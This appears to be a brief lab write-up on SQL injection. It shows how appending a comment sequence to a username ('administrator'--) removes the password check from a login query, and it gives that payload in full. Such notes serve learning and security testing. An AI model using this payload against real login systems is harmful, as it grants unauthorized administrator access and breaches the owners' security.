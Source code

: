 # Subverting Application Logic

In this when user enter credentials it is checked via an SQLquery

```
select * from users where username = 'wiener' and password = 'bluecheese'
```
Attacker can login into application without password using the comment to remove the password query

SQL payload

```
select * from users where username = 'administrator'--' and password = ''
```

as it shows comment sequence leaves the password blank and this allowed the attacker to enter as admin

end goal : to login as administrator

it has a simple payload for attack 

<b>Payload</b>

```
username : administrator'--
password :''
```